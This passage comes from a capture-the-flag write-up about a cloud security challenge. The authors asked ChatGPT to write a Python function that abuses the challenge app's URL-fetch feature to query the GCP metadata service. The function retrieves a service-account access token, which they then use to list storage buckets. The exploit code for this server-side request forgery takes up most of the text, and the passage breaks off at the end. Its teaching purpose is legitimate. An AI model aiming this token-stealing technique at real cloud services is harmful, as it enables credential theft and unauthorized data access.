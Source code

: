     **Amend the python script from earlier to issue this request to retrieve a fresh access token with each execution. Parse the required information from the server's response using beautiful soup, and provide the token as an argument to the list_buckets function**

ChatGPT gave us a simple Python function we could plug into our existing script. This function issues a request to the challenge cloud run app with the necessary parameters to request a bearer token from the internal metadata service. Then it was a straightforward matter of using BeautifulSoup to parse and return the token out of the response HTML.


```
import requests
import json
from bs4 import BeautifulSoup

def get_access_token():
	# Define URL and data for the POST request
	url = "https://leaky-bucket-jobztbckaq-uc.a.run.app/result"
	data = {
    	"inputUrl": "http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token",
    	"inputHeader": '{"Metadata-Flavor": "Google"}'
	}


	headers = {
    	"Content-Type": "application/x-www-form-urlencoded",
    	"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36"
	}

	response = requests.post(url, data=data, headers=headers)
	soup = BeautifulSoup(response.content, "html.parser")


	# Find the table cell with the token data
	token_data_cell = soup.find("td")
	if token_data_cell:
    	# Parse the token JSON string and retrieve the 'access_token' field
    	    token_data = json.loads(token_data_cell.text.replace("&#34;", '"'))
    	    return token_data["access_token"]
	else:
    	    raise Exception("Unable to fetch token from the server's response.")
```


Now, we can simply call get_access_token() any time our script needs a new one so we can keep drilling a hole in these buckets. 


### Going Above and Beyond: Downloading ALL the Buckets

With a little more back-and-forth, we eventually wrote a complete script (GitHub Link: [https://github.com/chtzvt/dc31-cloud-ctf/blob/master/get_metadata.py](https://github.com/chtzvt/dc31-cloud-ctf/blob/master/get_metadata.py#L9C31-L9C31)) to accomplish the following: 
